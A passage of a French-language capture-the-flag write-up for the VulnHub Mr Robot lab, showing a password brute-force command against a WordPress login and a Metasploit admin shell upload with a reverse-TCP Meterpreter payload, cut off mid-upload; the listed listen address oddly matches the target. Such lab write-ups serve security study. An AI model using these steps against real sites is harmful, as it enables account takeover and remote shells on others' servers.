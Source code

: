 Elliot, comme le personnage principal de la série.

### Trouver le mot de passe

En utilisant le meme principe, il ne me restais plus qu'à coder un script pour bruteforcer le mot de passe.
Ce dernier est disponible ici.

```

python2 script.py --url "http://192.168.56.101/wp-login.php" --false "The password you entered for the username" --wordlist "/home/shoxx/CTF/VulnHub/MrRobot01/fsocity.dic" -v -l "Elliot"
```

Une fois terminé le script nous donne le mot de passe suivant :  ER28-0652

Road to shell

Une fois authentifié sur le wordpress on remarque que l'utilisateur que nous controlons (Elliot) est administrateur du blog. Ceci va nous permettre d'obtenir un shell sur la machine.
L'utilisateur admin ayant le droit d'uploader des plugins, on vas pouvoir uploader un shell.

Pour ceci on peut sortir metasploit :

```

msf &gt; use exploit/unix/webapp/wp_admin_shell_upload

msf exploit(wp_admin_shell_upload) &gt; show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name Current Setting Required Description

---

PASSWORD ER28-0652 yes The WordPress password to authenticate with
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOST 192.168.56.101 yes The target address
RPORT 80 yes The target port
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes The base path to the wordpress application
USERNAME Elliot yes The WordPress username to authenticate with
VHOST no HTTP server virtual host
Payload options (php/meterpreter/reverse_tcp):

Name Current Setting Required Description

---

LHOST 192.168.56.101 yes The listen address
LPORT 4444 yes The listen port
Exploit target:

Id Name

---

0 WordPress

msf exploit(wp_admin_shell_upload) &gt; exploit

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with WordPress using Elliot:ER28-0652...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
```